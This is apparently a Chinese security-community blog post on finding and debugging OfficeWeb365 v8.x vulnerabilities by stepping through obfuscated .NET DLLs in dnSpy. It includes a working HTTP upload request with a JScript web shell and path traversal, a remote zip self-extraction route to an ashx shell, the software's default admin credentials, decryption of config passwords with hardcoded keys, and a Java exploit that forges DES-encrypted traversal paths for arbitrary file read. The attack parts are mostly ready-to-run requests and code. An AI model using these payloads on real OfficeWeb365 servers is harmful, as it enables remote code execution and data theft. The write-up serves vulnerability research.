




# 奇安信攻防社区 - 某 web365-v8.*挖掘调试学习

### 某 web365-v8.\*挖掘调试学习

某 web365-v8.\*挖掘学习，通过 dnspy 调试，了解混淆状态下的 dll 也是可以通过调试去看懂反混淆后的 dll 是如何处理代码逻辑的。

## 环境搭建 - 指纹


#### Hunter 指纹

web.body="请输入 furl"

环境

[https://officeweb365.com/download](https://officeweb365.com/download)

使用手册

```php
                   快速使用说明

更详细的使用手册详见：Docs\OfficeWeb365部署使用手册.pdf

一、默认使用方法：
http://localhost:8088/?furl=文件地址
1、更改localhost:8088，可以在IIS里绑定域名、IP、端口号，数量不限。
2、furl文件地址：可以是公网地址，如：http://a.com/b.doc，也可以是本机（预览服务器）地址，如：D:\docs\b.doc。默认只接收网络地址的文件，可在配置文件中更改文件接收方式。IE 对中文及特殊符号不会编码，为了兼容性考虑，最好对 furl 参数进行 URL 编码，编码方式为 UTF-8。

二、后台设置界面：http://localhost:8088/config。默认用户名：myname，密码：password。

三、缓存清理及加速文件位置：officeweb365\clearcache\config.xml。使用记事本编辑。保存后，需要手动重启服务：A Officeweb365 ClearCache

2017年11月18日  V3.0.0
```

搭建成功


默认口令 myname/password 进入后台，可看到版本号


测试上传成功

```php
POST /PW/SaveDraw?path=../../Content/img&idx=cnvdtes2827.aspx HTTP/1.1
Host: xxx
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 142

data:image/png;base64,01s34567890123456789y1234567h8901234567m91<%@ Page Language="Jscript"%><% eval(Request.Item["ant"],"unsafe"); %>///---
```


## 一、远程下载自解压的漏洞新后缀复现思路以及代码分析漏洞流程-

### 0.1、查看修复情况

v8.6.1--没有开启 furl-base64 加密 - 复现--失败-cache/office/下连 txt 都不能访问，cache/其他目录的话既可以用 xamlx 重新造成`RCE`

可以看到新版就把 furl 漏洞修复了


### 0.2、复现--xamlx/resx/resources 后缀成功--以及过滤后缀-aspx/asmx/asp/ashx/soap/

1、打包下载

需要提前准备 2 个文件，一个 ashx 和一个 txt 文件

将这两个文件打包为 2.zip，然后起一个 http 服务提供给网站远程下载

然后访问？furl=[http://你的公网服务器/2.zip](http://xn--6qqt3cr0as7hx7zwgvw8n/2.zip)

```php
http://localhost:8088/?furl=http://10.10.11.1:88/zip.zip
```


2、找路径 - 预览拿到路径去拼接-shell 路径--去本地看到物理路径--为什么 zip 里要有个 jpg，只是为了拿到 zippath 这串数字

[http://10.10.11.167:8088/?hostPort=xxxxx.88&zippath=823082917202033900300451\_125122&fname=zip%5Cyct.jpg](http://10.10.11.167:8088/?hostPort=43.156.64.240.88&zippath=823082917202033900300451_125122&fname=zip%5Cyct.jpg)

```php
C:\OfficeWeb365\officeweb\cache\office\xxxxx.88\823082917202033900300451_125122\zip\img.ashx

http://10.10.11.167:8088/?hostPort=xxxxx.88&zippath=823082917202033900300451_125122&fname=zip\yct.jpg

http://10.10.11.167:8088/cache/office/xxxxx.88/823082917202033900300451_125122/zip/img.ashx
```


随后即可发现网站对该 zip 进行了下载和解压，这里可以预览 txt 格式文件获取 zippath 参 数的值

3、everything 确定 shell 位置 - 然后 ashx 文件的地址即为：


4、resx 也可以创建目录使用 - 直接压缩包里的`App_LocalResources`这个`全局资源目录`也可以在压缩包里创建访问


但是 officeweb 里的 cache 目录已经不可以访问该目录下的所有文件了

cache/office

[http://localhost:8088/cache/office/123.txt](http://localhost:8088/cache/office/123.txt)


cache/excel

[http://localhost:8088/cache/excel/123.txt](http://localhost:8088/cache/excel/123.txt)


### 0.3、代码分析 - 压缩包的解压流程 - 和目录的生成流程原理看看能不能自解压到除了`cache/office`的其他目录比如`cache/excel`、`cache/word`、`cache/ppt`

路由--DefaultController



furl 就有软件过期判断--和邮箱给的 key 有关`TRIALVER.regkey`


抓包断点

[http://localhost:8088/?furl=http://10.10.11.1:88/zip.zip](http://localhost:8088/?furl=http://10.10.11.1:88/zip.zip)


Funcs.GetJsonLang 这个函数里去获取判断参数

```php
string jsonLang9 = Funcs.GetJsonLang("SoftOut", lang9);
```


lang.json--用于判断文件有没有问题


取消优化到`downFileInfo`


shell 到路径拼接


```php
string text3 = AppDomain.CurrentDomain.BaseDirectory.Replace("officeweb\\", "clearcache\\") + "config.xml";
        if (!System.IO.File.Exists(text3))
        {
            return;
        }
        try
        {
            XmlDocument xmlDocument = new XmlDocument();
            xmlDocument.Load(text3);
            XmlElement documentElement = xmlDocument.DocumentElement;
            if (documentElement.SelectSingleNode("PreHost") == null)
            {
                XmlNode xmlNode = xmlDocument.CreateNode(XmlNodeType.Element, "PreHost", string.Empty);
                xmlNode.InnerText = text2;
                documentElement.AppendChild(xmlNode);
            }
            else
            {
                documentElement.SelectSingleNode("PreHost").InnerText = text2;
            }
            xmlDocument.Save(text3);
            Class122.ushort_0 = 5;
        }
```


text5 拼接完成 zip 的包路径


最后到这里拼接完成

```php
string text = string.Concat(AppDomain.CurrentDomain.BaseDirectory + $"cache\\office\\{uri.Host}.{uri.Port}\\", data.fileName, ".docx");
```


pdf

```php
private ActionResult method_2(string string_0, DownFileInfo downFileInfo_0, string string_1, int int_0, string string_2, Parms parms_0)
    {
        //IL_0ab1: Unknown result type (might be due to invalid IL or missing references)
        //IL_0ab8: Expected O, but got Unknown
        //IL_0695: Unknown result type (might be due to invalid IL or missing references)
        //IL_01ac: Unknown result type (might be due to invalid IL or missing references)
        //IL_01b3: Expected O, but got Unknown
        //IL_01b5: Unknown result type (might be due to invalid IL or missing references)
        //IL_01bc: Expected O, but got Unknown
        //IL_0472: Unknown result type (might be due to invalid IL or missing references)
        //IL_0479: Expected O, but got Unknown
        //IL_042d: Unknown result type (might be due to invalid IL or missing references)
        //IL_0434: Expected O, but got Unknown
        //IL_1084: Unknown result type (might be due to invalid IL or missing references)
        //IL_108b: Expected O, but got Unknown
        //IL_04b9: Unknown result type (might be due to invalid IL or missing references)
        //IL_04c3: Expected O, but got Unknown
        //IL_02d3: Unknown result type (might be due to invalid IL or missing references)
        //IL_02da: Expected O, but got Unknown
        //IL_1181: Unknown result type (might be due to invalid IL or missing references)
        //IL_1186: Unknown result type (might be due to invalid IL or missing references)
        //IL_118d: Unknown result type (might be due to invalid IL or missing references)
        //IL_1198: Unknown result type (might be due to invalid IL or missing references)
        //IL_11a7: Expected O, but got Unknown
        string text = Path.GetExtension(downFileInfo_0.fName).ToLower();
        switch (text)
        {
        case ".pdf":
            switch (string_1)
            {
            case "7":
            {
                FileInfo fileInfo = new FileInfo(string_0);
                fileInfo.Refresh();
                string text2 = "cache\\PDF\\" + Funcs.FilePathEncodeStr(0, fileInfo.LastWriteTime, Path.GetFileNameWithoutExtension(fileInfo.Name), fileInfo.Length) + "\\temp\\";
                string text3 = AppDomain.CurrentDomain.BaseDirectory + text2;
                if (!Directory.Exists(text3))
                {
                    Directory.CreateDirectory(text3);
                }
                InputPdf val = new InputPdf(string_0);
                PdfRasterizer val2 = new PdfRasterizer(val);
                int count = val2.Pages.Count;
                Dictionary<object, object> dictionary2 = new Dictionary<object, object>();
                dictionary2.Add("total", count);
                dictionary2.Add("fileName", fileInfo.Name);
                dictionary2.Add("fileSize", fileInfo.Length);
                string originalString = base.Request.Url.OriginalString;
                string text4 = originalString.Substring(0, originalString.IndexOf('?')).TrimEnd('/');
                Dictionary<string, string> dictionary3 = new Dictionary<string, string>();
                if (parms_0.index > -1 && parms_0.index < count)
                {
                    string text5 = $"p{parms_0.index + 1}.png";
                    if (!System.IO.File.Exists(text3 + text5))
                    {
                        InputPdfPage val3 = val.Pages[parms_0.index];
                        FixedImageSize val4 = new FixedImageSize((float)Convert.ToInt32(val3.Width * 2.0), (float)Convert.ToInt32(val3.Height * 2.0));
                        val2.Pages[parms_0.index].Draw(text3 + text5, (ImageFormat)(object)ImageFormat.Png, (ImageSize)(object)val4);
                    }
                    string value = text4 + "/" + text2.Replace("\\", "/") + text5;
                    dictionary3.Add("hd", value);
                    dictionary3.Add("in", text4 + "/pw/getImage?url=" + Funcs.Encrypt(text3 + text5) + "&size=1");
                    dictionary3.Add("th", text4 + "/pw/getImage?url=" + Funcs.Encrypt(text3 + text5) + "&size=2");
                }
                dictionary2.Add("Pages", dictionary3);
                return Json(dictionary2, JsonRequestBehavior.AllowGet);
            }
```

这里看到一个转折--pdffile-我怀疑是不是 zip 里有 pdf 就会到这个目录下--但是看来是输了，zip 里有 pdf 和直接请求 pdf 都是不行的


回溯应该是在 pdfcontroller


2、参数

参数下载地方


## 二、混淆 dll 的调试 - 通过看反混淆后的 dll 的代码逻辑去调试混淆的环境内容

8.16-config.config 密码解密-SetSaveController --Dx.OfficeView.dll

```php
  <User Name="myname" PassWord="L3438_WrZBfx57iA@dHAOA==" SuperMan="L3438_WrZBfx57iA@dHAOA==">True</User>
```


### 0.1、遇到的问题

dnspy--C#交互容易抛出异常


重新用本机的反混淆后的dll去C#交互也是一堆异常


vistudio 写的也会，无论是混淆了的 dll，还是解开混淆后的 dll


重新混淆 dll--丢进去 iis--想法，暂时还无法实现，因为不清楚怎么把反混淆的 dll 重新混淆回去原来的样子

```php
.NET Reactor 4.x>>>>>.NET Reactor
```


### 0.2、新想法解决问题

只能直接用原版的代码逻辑去解密了，也就是说我要改 config.config 里的 password，看代码，这两个都是解密的，一个是提取，一个是解密

```php
string text = method_5(documentElement, "User", "PassWord");
读取原配置文件提取PassWord
text = Funcs.smethod_2(text, "dx185185", "dx185185");
解密text
```


果然和自己想法一样 - 到最后因为重置密码，最后可以会有属于加密的方式再这里--前提是上面提取到解密到对比拿到的 flag 必须是一样的，才可以触发到这里

```php
modValue.AttrValue.Add("PassWord", Funcs.smethod_1(PassWord1, "dx185185", "dx185185"));
```


试一下功能，会不会说修改了以后就会保存再 config.config 了，如果是的话，自己任意文件下载 config.config 回来拿到的 password，就哭呀直接丢到 config.config 去提取去解密了

配置已更改，系统设置 - 重启生效


去看看 config.config 里的--拿到 123456 的密码了


debug 调试--还是原来的思路试试--结果就比如我下载回来的 config.config 文件里的`password`加密字段 - 我是不知道的，然后我直接就丢进 config.config 文件里直接就解密了




我重新丢回我 7.13 的进去还是一样可以拿到密码

```php
5WaD@Vd1uxk=
```


## 三、前台文件读取加密 exp 编写以及漏洞加密流程调试分析--/Pic/Indexs-key 的任意文件读取 -8.6.1.0

### 复现

```php
GET /Pic/Indexs?imgs=jCXF6i9anXA0lkOVC3FrBg==GG HTTP/1.1
Host: 10.10.11.184:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```php
GET /Pic/Indexs?imgs=Vieapcg5Db3PFro9X1GI0QdikpPVe6TmlgvNfjPkqO2+ZjprzMdy0Q==GG HTTP/1.1
Host: 10.10.11.184:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```


1、前台文件读取加密 exp 编写 - 加密数据 exp-获取 key 和 iv


java

```php
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;
public class ioffice_web_pic_indexs {
    private static byte[] key = {(byte)102, (byte)16, (byte)93, (byte)156, (byte)78, (byte)4, (byte)218, (byte)32};
    private static byte[] iv = {(byte)55, (byte)103, (byte)246, (byte)79, (byte)36, (byte)99, (byte)167, (byte)3};

    public static void main(String[] args) {
        String readFile = "../../../../../../windows/win.ini"; // 替换为你的输入字符串
        System.out.println("input: " + readFile);
        byte[] encryptedText = desEncrypt(readFile.getBytes());
        String base64Encoded = Base64.getEncoder().encodeToString(encryptedText);
        // 补位 imgs.Length-2 以下随意填充 2 个字符
        base64Encoded += "GG";
        System.out.println(base64Encoded);
    }

    public static byte[] desEncrypt(byte[] plaintext) {
        try {
            SecretKeySpec keySpec = new SecretKeySpec(key, "DES");
            IvParameterSpec ivSpec = new IvParameterSpec(iv);
            Cipher cipher = Cipher.getInstance("DES/CBC/PKCS5Padding");
            cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
            return cipher.doFinal(plaintext);
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }
}
```

### 漏洞加密流程调试代码分析-`ReadAllBytes`配合`new StreamReader().ReadToEnd()`最后`.File(fileContents, "image/png")`读取 - 代码调试



```php
public ActionResult Indexs(string imgs)
{
    if (!string.IsNullOrEmpty(imgs))
    {
        byte[] array = Convert.FromBase64String(base.Server.HtmlDecode(imgs).Trim().Replace("%", "")
                                                    .Replace(",", "")
                                                    .Replace(" ", "+")
                                                    .Remove(imgs.Length - 2, 2));
        DESCryptoServiceProvider dESCryptoServiceProvider = new DESCryptoServiceProvider
        {
            Key = byte_0,
            IV = byte_1
            };
        MemoryStream stream = new MemoryStream(array, 0, array.Length);
        ICryptoTransform transform = dESCryptoServiceProvider.CreateDecryptor();
        byte[] fileContents = System.IO.File.ReadAllBytes(new StreamReader(new CryptoStream(stream, transform, CryptoStreamMode.Read), Encoding.Default).ReadToEnd());
        return File(fileContents, "image/png");
    }
    base.Response.CacheControl = "no-cache";
    base.Response.Cache.SetMaxAge(TimeSpan.FromSeconds(0.0));
    byte[] fileContents2 = System.IO.File.ReadAllBytes(AppDomain.CurrentDomain.BaseDirectory + "Content\\img\\error.png");
    return File(fileContents2, "image/png");
}

public PicController()
{
    Class130.TSEqjRZz0Ob3v();
    byte_0 = new byte[8] { 102, 16, 93, 156, 78, 4, 218, 32 };
    byte_1 = new byte[8] { 55, 103, 246, 79, 36, 99, 167, 3 };
    base..ctor();
}
```

1、base64 解密 - 这里除了讲传进来的 imges 的加密`base64`内容替换`%`号、`,`号、`+`号，还有`Remove`去掉最后两位，经过了替换和`Remove`处理后才再把`imges`内容 base64 内容解密接码

```php
byte[] array = Convert.FromBase64String(base.Server.HtmlDecode(imgs).Trim().Replace("%", "").Replace(",", "").Replace(" ", "+").Remove(imgs.Length - 2, 2));
```


2、descryptoServiceProvider 解密，导入加密 key 和 iv 进行解密，获取`filepath`和`fileContents`

```php

                DESCryptoServiceProvider descryptoServiceProvider = new DESCryptoServiceProvider
                {
                    Key = this.byte_0,
                    IV = this.byte_1
                };
                Stream stream = new MemoryStream(array, 0, array.Length);
                ICryptoTransform transform = descryptoServiceProvider.CreateDecryptor();
                byte[] fileContents = System.IO.File.ReadAllBytes(new StreamReader(new CryptoStream(stream, transform, CryptoStreamMode.Read), Encoding.Default).ReadToEnd());
                return base.File(fileContents, "image/png");
```

fileContents 里，`new StreamReader().ReadToEnd()`获取文件路径`filepath`,而`System.IO.File.ReadAllBytes(...)`是获取文件路径`filepath`里的内容并且 读取到的字符串转换为字节数组，即文件内容的二进制表示 `byte[]`

3、最后`File`配合`ReadAllBytes`触发文件读取

```php
base.File(fileContents, "image/png")：使用 base.File(...) 方法创建一个文件结果对象。第一个参数是文件内容的字节数组，第二个参数是文件的 MIME 类型，指定为 "image/png" 表示返回的是 PNG 图片。
```



·

## 四、总结

本篇文章主要学习和总结的知识点是要如何在混淆的 dll 的环境下，通过反混淆的 dll 看清楚代码逻辑，在还有些不清楚的传递方法或者处理逻辑参数时，调试后获取到的值能够让自身快速去了解漏洞的处理逻辑，和导致漏洞形成的原因
